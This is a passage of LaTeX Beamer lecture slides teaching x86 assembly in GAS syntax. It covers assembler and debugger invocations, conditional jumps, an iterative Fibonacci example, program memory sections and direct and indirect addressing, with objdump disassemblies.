 8048083: 81 c3 34 12 34 12     add    $0x12341234,%ebx
 8048089: 48                    dec    %eax
 804808a: 66 48                 dec    %ax
 804808c: fe c8                 dec    %al
 804808e: c1 e8 03              shr    $0x3,%eax
 8048091: c1 2d a4 90 04 08 03  shrl   $0x3,0x80490a4
 8048098: 89 c3                 mov    %eax,%ebx
 804809a: a1 a4 90 04 08        mov    0x80490a4,%eax
 804809f: a3 a4 90 04 08        mov    %eax,0x80490a4

Disassembly of section .data:
080490a4 <magicNumber>:
 80490a4: ef                    out    %eax,(%dx)
 80490a5: be                    .byte 0xbe
 80490a6: ad                    lods   %ds:(%esi),%eax
 80490a7: de                    .byte 0xde
\end{customobjdumpcode}
\end{frame}

\section{Basic Tools}
\begin{frame}[fragile,t]
\frametitle{Common Invocations}
\begin{itemize}
    \item Assemble: {\ttfamily as prog.asm -o prog.o}
    \item Link directly: {\ttfamily ld prog.o -o prog}
    \item Link with libc: {\ttfamily gcc prog.o -o prog}
    \item Disassemble: {\ttfamily objdump -D prog}
    \item View Sections: {\ttfamily objdump -x prog}
    \item View Symbols: {\ttfamily nm prog}
    \item Debug Disassembly: {\ttfamily gdb prog}
    \begin{itemize}
        \item Step instruction: {\ttfamily si}
        \item Set breakpoint at symbol: {\ttfamily b \_start}
        \item Set breakpoint at address: {\ttfamily b * 0x80001230}
        \item View CPU registers: {\ttfamily info reg}
        \item Disassemble next instruction: {\ttfamily x/i \$eip}
        \item View five dwords of memory starting at {\ttfamily \$esp}: {\ttfamily x/5w \$esp}
        \item View five bytes of memory starting at {\ttfamily 0xbffffff0}: {\ttfamily x/5w 0xbffffff0}
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{A Note on GAS Syntax}
\begin{itemize}
    \item Syntax
    \begin{itemize}
        \item {\ttfamily \%} precedes a register: {\ttfamily \%eax}
        \item {\ttfamily \$} precedes a constant: {\ttfamily \$5, \$0xff, \$07, \$'A, \$0b111}
        \item {\ttfamily .} precedes a directive: {\ttfamily .byte, .long, .ascii, .section, .comm}
        \item No special character precedes a dereferenced memory address: \\ {\ttfamily movl \%eax, 0x80000000}
        \item {\ttfamily mylabel:} defines a label, a symbol of name {\ttfamily mylabel} containing the address at that point
    \end{itemize}
    \item Directives
    \begin{itemize}
        \item Place a raw byte: {\ttfamily .byte 0xff}
        \item Place a raw short: {\ttfamily .short 0x1234}
        \item Place a raw ASCII string: {\ttfamily .ascii "Hello World!\textbackslash0"}
        \item Specify a section (e.g. .text, .data, .rodata, .bss): \\ {\ttfamily .section <section-name>}
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{A Note on GAS Syntax}
\begin{itemize}
    \item Instruction Size Suffix
    \begin{itemize}
        \item x86 is backwards compatible to the original 8086
        \item Inherited instructions operate on 8-bits, 16-bits, 32-bits
        \item Naturally, they often have the same name...
        \item GAS supports the syntax {\ttfamily <mnemonic><size>} to unambigiously encode the correct instruction
        \item {\ttfamily movb \$0xff, \%al \;\; movw \%bx, \%ax \;\; movl memAddr, \%eax}
        \item {\ttfamily incb \%ah \;\; incw \%ax \;\; incl \%eax}
    \end{itemize}
\end{itemize}
\begin{center}
\begin{tabular}{c|c|c}
\textbf{Name} & \textbf{Size} & \textbf{GAS Suffix} \\
\hline \hline
byte & 8-bits & b \\
word & 16-bits & w \\
dword & 32-bits & l \\
qword & 64-bits & q \\
\end{tabular}
\end{center}
\end{frame}

\section{Topic 2: Flow Control}
\begin{frame}[fragile,t]
\mvs
\frametitle{Instruction Side-Effects}
\begin{itemize}
  \item Certain instructions will set boolean bit flags in the {\ttfamily \%eflags} registers based on the result
  \begin{itemize}
    \item Implicitly, based on result of arithmetic
    \item Intentionally, with {\ttfamily cmp} or {\ttfamily test} between two operands
  \end{itemize}
\end{itemize}
\mvs
\begin{figure}
\centering
  
\includegraphics[width=\textwidth]{figures/eflags.png} \\
  \vs
  
\includegraphics[height=0.4\paperheight]{figures/ia32-eflags.png}\footnote{Intel 64 and IA-32 Architectures Software Developer’s Manual Vol. 1, A-1}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Conditional Jumps}
\begin{itemize}
  \item Flags are the basis of flow control with conditional jumps
  \item Conditional jump will update {\ttfamily \%eip} to a relative address, if a particular {\ttfamily \%eflags} flag is set
\end{itemize}
\begin{table}[h]\tiny
\begin{tabular}{l|c|c}
  \textbf{Instruction} & \textbf{\%eflags Condition} &  \textbf{Description} \\
  \hline
  {\ttfamily jmp <label>} & - & Unconditional Jump \\
  \textbf{Unsigned Conditional Jumps} & & \\
  \hline
  {\ttfamily ja / jnbe <label>} & (CF or ZF) = 0 & Above / Not below or equal \\
  {\ttfamily jae / jnb <label>} & CF = 0 & Above or equal / Not below \\
  {\ttfamily jb / jnae <label>} & (CF or ZF) = 1 & Below / Not above or equal \\
  {\ttfamily jc <label>} & CF = 1 & Carry \\
  {\ttfamily je/jz <label>} & ZF = 1 & Equal / Zero \\
  {\ttfamily jnc <label>} & CF = 0 & Not Carry \\
  {\ttfamily jne/jnz <label>} & ZF = 0 & Not Equal / Not Zero \\
  \textbf{Signed Conditional Jumps} & & \\
  \hline
  {\ttfamily jg / jnle <label>} & ((SF xor OF) or ZF) = 0 & Greater / Not Less or Equal\\
  {\ttfamily jge / jnl <label>} & (SF xor OF) = 0 & Greater or Equal / Not Less\\
  {\ttfamily jl / jnge <label>} & (SF xor OF) = 1 & Less / Not Greater or Equal \\
  {\ttfamily jle / jng <label>} & ((SF xor OF) or ZF) = 1 & Less or Equal / Not Greater \\
  {\ttfamily jno <label>} & OF = 0 & Not overflow \\
  {\ttfamily jns <label>} & SF = 0 & Not sign (non-negative) \\
  {\ttfamily jo <label>} & OF = 1 & Overflow \\
  {\ttfamily js <label>} & SF = 1 & Sign (negative) \\
\end{tabular}
\end{table} \footnote{Intel 64 and IA-32 Architectures Software Developer’s Manual Vol. 1, 7-23}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Conditional Jumps (example-3.S)}
\mvs
\begin{gascode}
.section .text

# cmpl %oper1, %oper2
# updates flags based on result of %oper2 - %oper1
cmpl %eax, %ecx
cmpl $0xFF, %eax

# conditional jumps
je label_foo    # jump if %oper2 == %oper1
jg label_bar    # jump if %oper2 > %oper1
jl label_xyz    # jump if %oper2 < %oper1

# test %oper1, %oper2
# updates flags based on result of %oper2 & %oper1
testl %eax, %ecx
testl $0x1F, %eax

# arithmetic
# updates flags based on result
addl %eax, %ebx
incl %eax
decl %ebx
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Conditional Jumps (example-3.S) Continued}
\mvs
\begin{gascode}
# labels are just symbols containing an address to make
# it easy to specify addresses
label1:
label2:
  movl $0, %eax   # %eax = 0
  incl %eax       # %eax++ ; ZF set to 0!
  jz label1       # Jump if ZF = 1 (not taken)
  jnz label3      # Jump if ZF = 0 (taken)
  decl %eax       # I won't be executed
label3:
  nop
  nop             # Execution will fall
label4:           # through label4
  jmp label1      # Jump back to label1

# Loops
movl $10, %eax
loop:
  nop
  decl %eax
  jnz loop

# Direct Comparison
cmpl $0x05, %eax
je label_foo      # Jump to label_foo if %eax == 5
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Conditional Jumps (example-3.S) Disassembly}
\mvs
\begin{customobjdumpcode}
$ as example-3.S -o example-3.o && ld example-3.o -o example-3 &&
   objdump -D example-3

Disassembly of section .text:
08048054 <_start>:
 8048054: 39 c1                 cmp    %eax,%ecx
 8048056: 3d ff 00 00 00        cmp    $0xff,%eax
 804805b: 74 2c                 je     8048089 <label_foo>
 804805d: 7f 2b                 jg     804808a <label_bar>
 804805f: 7c 2a                 jl     804808b <label_xyz>
 8048061: 85 c1                 test   %eax,%ecx
 8048063: a9 1f 00 00 00        test   $0x1f,%eax
 8048068: 01 c3                 add    %eax,%ebx
 804806a: 40                    inc    %eax
 804806b: 4b                    dec    %ebx

...
\end{customobjdumpcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Conditional Jumps (example-3.S) Disassembly Continued}
\mvs
\begin{customobjdumpcode}
0804806c <label1>:
 804806c: b8 00 00 00 00        mov    $0x0,%eax
 8048071: 40                    inc    %eax
 8048072: 74 f8                 je     804806c <label1>
 8048074: 75 01                 jne    8048077 <label3>
 8048076: 48                    dec    %eax
08048077 <label3>:
 8048077: 90                    nop
 8048078: 90                    nop
08048079 <label4>:
 8048079: eb f1                 jmp    804806c <label1>
 804807b: b8 0a 00 00 00        mov    $0xa,%eax
08048080 <loop>:
 8048080: 90                    nop
 8048081: 48                    dec    %eax
 8048082: 75 fc                 jne    8048080 <loop>
 8048084: 83 f8 05              cmp    $0x5,%eax
 8048087: 74 00                 je     8048089 <label_foo>
\end{customobjdumpcode}
\end{frame}

\section{Putting it together: Iterative Fibonacci}
\begin{frame}[fragile,t]
\frametitle{Iterative Fibonacci (example-4.S)}
\mvs
\begin{gascode}
.section .text
.global main
main:
  movl $0, %ecx     # f_n-2 = f_0 = 0
  movl $1, %ebx     # f_n-1 = f_1 = 1
  movl $1, %eax     # f_n   = f_2 = 1
  movl $12, %edi    # Number of integers to compute

  fib_loop:
    # Print %eax
    call myprint

    movl %ebx, %ecx   # f_n-1 -> f_n-2
    movl %eax, %ebx   # f_n   -> f_n-1
    addl %ecx, %eax   # New f_n = Old f_n + f_n-2

    # Decrement %edi
    decl %edi
    jnz fib_loop

  ret

myprint:
  ...
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Iterative Fibonacci (example-4.S) Output}
\begin{textcode}
$ as example-4.S -o example-4.o
$ gcc example-4.o -o example-4
$ ./example-4
1
2
3
5
8
13
21
34
55
89
144
233
$
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Iterative Fibonacci (example-4.S) Disassembly}
\begin{customobjdumpcode}
080483e4 <main>:
 80483e4: b9 00 00 00 00        mov    $0x0,%ecx
 80483e9: bb 01 00 00 00        mov    $0x1,%ebx
 80483ee: b8 01 00 00 00        mov    $0x1,%eax
 80483f3: bf 0c 00 00 00        mov    $0xc,%edi

080483f8 <fib_loop>:
 80483f8: e8 0a 00 00 00        call   8048407 <myprint>
 80483fd: 89 d9                 mov    %ebx,%ecx
 80483ff: 89 c3                 mov    %eax,%ebx
 8048401: 01 c8                 add    %ecx,%eax
 8048403: 4f                    dec    %edi
 8048404: 75 f2                 jne    80483f8 <fib_loop>
 8048406: c3                    ret
\end{customobjdumpcode}
\begin{itemize}
  \item Main code is only 35 bytes!
  \item Can easily be cut down to 28 bytes by optimizing the clears: \\
  {\ttfamily movl \$0x0, \%ecx} \; to \; {\ttfamily xorl \%ecx, \%ecx}
\end{itemize}
\end{frame}

\section{Topic 3: Program Memory}

\begin{frame}[fragile,t]
\frametitle{Static Allocation in C}
\begin{itemize}
  \item From C, we're used to uninitialized and initialized static memory allocations
\end{itemize}
\vs
\begin{ccode}
/* Uninitialized static allocation, read-write */
char buff[1024];
/* Initialized static allocations, read-write */
int foo = 5;
char str[] = "Hello World";

/* Trickier example: */
char *p = "Hello World";
/* char *p is an initialized static allocation, read-write */
/* "Hello World" is initialized static allocation, READ-ONLY */

int main(void) {
  return 0;
}
\end{ccode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Static Allocation in Assembly}
\begin{itemize}
  \item In assembly, we are responsible for specifying the contents of memory as the program requires it
  \item Description is stored in a binary format like ELF, in terms of sections, r/w/x permissions, and sizes
  \item OS is responsible for setting up memory as described in ELF binary in {\ttfamily execve()}
  \pause
  \vs\vs\vs
  \item {\ttfamily section \textbf{.text}}: \textbf{read-only executable} program instructions
  \item {\ttfamily section \textbf{.rodata}}: initialized statically allocated \textbf{read-only data}
  \item {\ttfamily section \textbf{.data}}: initialized statically allocated \textbf{read-write data}
  \item {\ttfamily section \textbf{.bss}}: uninitialized statically allocated \textbf{read-write data}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Memory Layout}
\mvs
\begin{figure}
\centering

\includegraphics[height=0.75\paperheight]{figures/memlayout.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Static Allocation in Assembly (example-5.S)}
\mvs
\begin{gascode}
# Put some instructions in .text
.section .text
_start:
nop
nop
nop
nop

# Put a string in .rodata
.section .rodata
anotherStr:   .ascii "Another string\n\0"

# Put some magic bytes in .data
.section .data
magicByte1:   .byte 0xaa
magicBytes2:  .byte 0x55, 0x10
magicDWord:   .long 0xdeadbeef
magicStr:     .ascii "String!\0"

# Reserve 1024 uninitialized bytes in .bss
.section .bss
.comm Buffer, 1024
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Static Allocation in Assembly (example-5.S) Disassembly}
\mvs
\begin{customobjdumpcode}
$ as example-5.S -o example-5.o && ld example-5.o -o example-5 &&
   objdump -D example-5

Disassembly of section .text:

08048074 <_start>:
 8048074: 90                    nop 
 8048075: 90                    nop 
 8048076: 90                    nop 
 8048077: 90                    nop 

Disassembly of section .rodata:

08048078 <anotherStr>:
 8048078: 41                    inc    %ecx
 8048079: 6e                    outsb  %ds:(%esi),(%dx)
 804807a: 6f                    outsl  %ds:(%esi),(%dx)
 804807b: 74 68                 je     80480e5 <anotherStr+0x6d>
 804807d: 65                    gs
 804807e: 72 20                 jb     80480a0 <anotherStr+0x28>
 8048080: 73 74                 jae    80480f6 <anotherStr+0x7e>
 8048082: 72 69                 jb     80480ed <anotherStr+0x75>
 8048084: 6e                    outsb  %ds:(%esi),(%dx)
 8048085: 67 0a 00              or     (%bx,%si),%al
\end{customobjdumpcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Static Allocation in Assembly (example-5.S) Disassembly}
\mvs
\begin{customobjdumpcode}
Disassembly of section .data:

08049088 <magicByte1>:
 8049088: aa                    stos   %al,%es:(%edi)
08049089 <magicBytes2>:
 8049089: 55                    push   %ebp
 804908a: 10 ef                 adc    %ch,%bh
0804908b <magicWord>:
 804908b: ef                    out    %eax,(%dx)
 804908c: be ad de 53 74        mov    $0x7453dead,%esi
0804908f <magicStr>:
 804908f: 53                    push   %ebx
 8049090: 74 72                 je     8049104 <Buffer+0x64>
 8049092: 69                    .byte 0x69
 8049093: 6e                    outsb  %ds:(%esi),(%dx)
 8049094: 67 21 00              and    %eax,(%bx,%si)

Disassembly of section .bss:

080490a0 <Buffer>:
  ...
\end{customobjdumpcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Viewing Sections}
\mvs
\begin{itemize}
  \item We can also view the program's sections with {\ttfamily objdump -x}.
\end{itemize}
\begin{textcode*}{fontsize=\fontsize{9}{8}}
$ objdump -x example-5

example-5:     file format elf32-i386
example-5
architecture: i386, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x08048074

Program Header:
    LOAD off    0x00000000 vaddr 0x08048000 paddr 0x08048000 align 2**12
         filesz 0x00000088 memsz 0x00000088 flags r-x
    LOAD off    0x00000088 vaddr 0x08049088 paddr 0x08049088 align 2**12
         filesz 0x0000000f memsz 0x00000418 flags rw-

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .text         00000004  08048074  08048074  00000074  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
  1 .rodata       00000010  08048078  08048078  00000078  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .data         0000000f  08049088  08049088  00000088  2**2
                  CONTENTS, ALLOC, LOAD, DATA
  3 .bss          00000400  080490a0  080490a0  00000097  2**4
                  ALLOC
...
\end{textcode*}
\end{frame}

\section{Topic 4: Reading/Writing Memory}

\begin{frame}[fragile,t]
\frametitle{Directly Accessing Memory}
\begin{itemize}
  \item We've already seen how to directly access memory addresses with their label representations
\end{itemize}
\begin{gascode}
.section .text
movl magicDword, %eax     # %eax = *magicDword
andb byteMask, %al        # %al &= *byteMask
movl %eax, modifiedDword  # *modifiedDword = %eax

.section .rodata          # Read-only!
magicDword: .long 0xffffffff
byteMask:   .byte 0x55

.section .bss             # Uninitialized read-write
.comm modifiedDword, 4
\end{gascode}
\begin{itemize}
  \item The memory addresses are directly encoded in the instructions:
\end{itemize}
\begin{customobjdumpcode}
Disassembly of section .text:
 8048074: a1 85 80 04 08        mov    0x8048085,%eax
 8048079: 22 05 89 80 04 08     and    0x8048089,%al
 804807f: a3 8c 90 04 08        mov    %eax,0x804908c
\end{customobjdumpcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Indirectly Accessing Memory}
\begin{itemize}
  \item Many x86 instructions are capable of complex indirect addressing in the form of: \\
  {\ttfamily *(base register + (offset register * multiplier) + displacement)}
  \item GAS Syntax: {\ttfamily displacement(base register, offset register, multiplier)}
  \pause
  \begin{itemize}
    \item Base register can be any general purpose register
    \item Offset register can be any general purpose register except {\ttfamily \%esp}
    \item Multiplier can be 1, 2, 4, 8
    \item Displacement is signed, up to 16-bits
  \end{itemize}
  \pause
  \item Not all fields are required. A simplified indirect address: {\ttfamily (\%ebx) }
  \begin{gascode}
  movl %eax, 8(%ebx, %ecx, 4)   # *(%ebx + 4*%ecx + 8) = %eax
  movl %eax, 12(%ebp)           # *(%ebp + 12) = %eax
  movl %eax, (%ebx)             # *(%ebx) = %eax
  \end{gascode}
  \pause
  \item Makes it easy to address tables/structures
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Indirectly Accessing Memory (example-6.S)}
\begin{gascode}
.section .text

movl $tableStart, %ebx          # Pointer to table start
                                # We are moving the *value* $tableStart,
                                # *this is not a memory access*
movl $0, %ecx
loop:
    movl (%ebx, %ecx, 4), %eax  # %eax = *(%ebx + 4*%ecx)
    notl %eax                   # %eax = ~ %eax
    movl %eax, (%ebx, %ecx, 4)  # *(%ebx + 4*%ecx) = %eax
    incl %ecx
    cmpl $10, %ecx
    jl loop

.section .data
tableStart: .long 0x00000000, 0x00000001, ...
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of Indirectly Accessing Memory (example-6.S) Disassembly}
\begin{customobjdumpcode}
$ as example-6.S -o example-6.o && ld example-6.o -o example-6 &&
   objdump -D example-6

Disassembly of section .text:
08048074 <_start>:
 8048074: bb 90 90 04 08        mov    $0x8049090,%ebx
 8048079: b9 00 00 00 00        mov    $0x0,%ecx
0804807e <loop>:
 804807e: 8b 04 8b              mov    (%ebx,%ecx,4),%eax
 8048081: f7 d0                 not    %eax
 8048083: 89 04 8b              mov    %eax,(%ebx,%ecx,4)
 8048086: 41                    inc    %ecx
 8048087: 83 f9 0a              cmp    $0xa,%ecx
 804808a: 7c f2                 jl     804807e <loop>
 804808c: 90                    nop

Disassembly of section .data:
08049090 <tableStart>:
 8049090: 00 00                 add    %al,(%eax)
 8049092: 00 00                 add    %al,(%eax)
 8049094: 01 00                 add    %eax,(%eax)
 8049096: 00 00                 add    %al,(%eax)
  ...

\end{customobjdumpcode}
\end{frame}

\section{Putting it together: Base-64 Encoder}

\begin{frame}[fragile,t]
\frametitle{Base-64 Representation of Binary Data}
\begin{itemize}
  \item Some ASCII-based communication channels do not handle binary data well (email, http, etc.).
